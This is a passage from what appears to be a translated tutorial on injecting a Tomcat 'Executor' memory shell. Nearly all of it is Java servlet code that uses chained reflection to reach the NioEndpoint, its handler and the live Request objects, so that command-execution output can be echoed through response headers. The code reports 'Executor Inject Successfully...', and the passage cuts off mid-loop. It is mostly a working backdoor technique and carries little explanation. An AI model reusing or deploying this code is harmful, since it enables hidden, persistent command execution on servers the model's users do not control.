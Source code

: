 ​ Here, through layered reflection, add the echo of the command execution to the `header` of the obtained `Response` object.

```java
package servlet;

import org.apache.coyote.Request;
import org.apache.coyote.RequestGroupInfo;
import org.apache.coyote.Response;
import org.apache.coyote.http11.Http11InputBuffer;
import org.apache.tomcat.util.collections.SynchronizedStack;
import org.apache.tomcat.util.net.AbstractEndpoint;
import org.apache.tomcat.util.net.NioEndpoint;

import javax.servlet.ServletConfig;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Field;
import java.nio.ByteBuffer;
import java.util.ArrayList;

@WebServlet(name = "ExecutorServlet", value = "/ExecutorServlet")
public class ExecutorServlet extends HelloServlet {
    @Override
    public void init(ServletConfig config) {
    };

    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
        response.setContentType("text/html");
        response.getWriter().write("Executor Inject Successfully...");
        try {
            Field field1 = ThreadGroup.class.getDeclaredField("threads");
            field1.setAccessible(true);
            Thread[] threads1 = (Thread[]) field1.get(Thread.currentThread().getThreadGroup());
            for (Thread thread : threads1) {
                if (!thread.getName().contains("exec") && thread.getName().contains("Poller")) {
                    Field field2 = thread.getClass().getDeclaredField("target");
                    field2.setAccessible(true);
                    Object target = field2.get(thread);
                    if (target instanceof Runnable) {
                        try {
                            Field field9 = target.getClass().getDeclaredField("this$0");
field9.setAccessible(true);
                            NioEndpoint nioEndpoint = (NioEndpoint) field9.get(target);
                            Field field4 = AbstractEndpoint.class.getDeclaredField("handler");
// Field field4 = AbstractProtocol.class.getDeclaredField("handler");
                            field4.setAccessible(true);
                            Object handler = field4.get(nioEndpoint);
                            Field field5 = handler.getClass().getDeclaredField("global");
                            field5.setAccessible(true);
                            RequestGroupInfo requestGroupInfo = (RequestGroupInfo) field5.get(handler);
                            Field field6 = requestGroupInfo.getClass().getDeclaredField("processors");
                            field6.setAccessible(true);
                            ArrayList arrayList = (ArrayList) field6.get(requestGroupInfo);
                            for (Object o : arrayList) {
                                Field field7 = o.getClass().getDeclaredField("req");
                                field7.setAccessible(true);
                                Request request1 = (Request) field7.get(o);
```